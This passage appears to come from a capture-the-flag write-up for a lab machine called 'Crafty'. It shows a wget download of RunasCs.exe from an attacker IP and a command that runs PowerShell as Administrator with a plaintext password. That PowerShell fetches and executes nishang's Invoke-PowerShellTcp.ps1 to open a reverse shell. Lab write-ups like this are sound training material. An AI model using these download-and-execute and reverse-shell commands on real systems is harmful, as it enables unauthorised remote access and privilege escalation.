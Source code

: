 Download the binary with the following command.

```powershell
wget "http://10.10.16.61/RunasCs.exe" -outfile "RunasCs.exe"
```

Next up we can run a command as webservice using the following command. For the reverse shell hosted a copy of  **Invoke-PowerShellTcp.ps1** script of [nishang](https://github.com/samratashok/nishang) This github repo contains multiple powershell scripts including reverse shells and other post exploitation tools.

```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.61/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.61 -Port 444" 
```

![Shell as administrator](/assets/img/Crafty/Crafty_05.png)



